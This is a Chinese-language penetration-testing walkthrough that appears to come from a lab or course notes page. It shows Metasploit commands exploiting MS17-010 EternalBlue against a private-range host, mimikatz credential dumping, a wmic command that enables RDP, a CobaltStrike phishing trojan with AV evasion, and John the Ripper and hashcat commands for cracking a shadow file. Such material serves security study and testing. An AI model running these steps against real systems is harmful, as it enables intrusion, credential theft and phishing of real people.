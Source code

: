 5）根据开放的445端口可初步确定存在MS17-010永恒之蓝漏洞

对漏洞进行验证和利用，使用Metasploit里对payload进行验证。

经过验证，10.211.55.8存在ms17-010漏洞，使用exploit进行攻击。

msf5 exploit(windows/smb/ms17\_010\_eternalblue) > set rhosts 10.211.55.8 rhosts => 10.211.55.8 msf5 exploit(windows/smb/ms17\_010\_eternalblue) > set rport 445 rport => 445 msf5 exploit(windows/smb/ms17\_010\_eternalblue) > run

6）抓取目标主机的账号登录密码

ipconfig systeminfo

经过对目标主机信息收集，发现目标主机系统为64位，上传64位mimikatz.exe进行密码抓取。

7）前期信息收集发现3389端口没开，无法进行登录操作，使用命令进行3389端口开放操作。

wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1

我们使用Nmap再次进行端口探测，可发现3389端口成功开启。

8）抓取密码

9）CobaltStrike生对生成对木马进行伪装，对客户发送钓鱼邮件诱导点开。

10）最后权限提升

总结：工具扫描端口，已知漏洞利用，上传小马，做免杀，钓鱼

## mimikatz抓到密码解不开hash

**字典破解**

Kali2.0 集成了 John the Ripper

字典文件位于 `/usr/share/john/password.lst`

使用 Kali Linux 上的 John 自带的密码列表。路径为 `/usr/share/john/password.lst`

使用字典破解：

john --wordlist=/usr/share/john/password.lst ./shadow

**暴力破解**

john ./shadow 

列出已破解的明文密码：

john --show ./shadow 

**hashcat**

Kali2.0 集成了 hashcat

字典文件使用 `/usr/share/john/password.lst`

修改 hash 格式：只保留 `$salt$encrypted`

**在线网站**

[HCE分布式计算平台](https://hce.iteknical.com/ "HCE分布式计算平台")
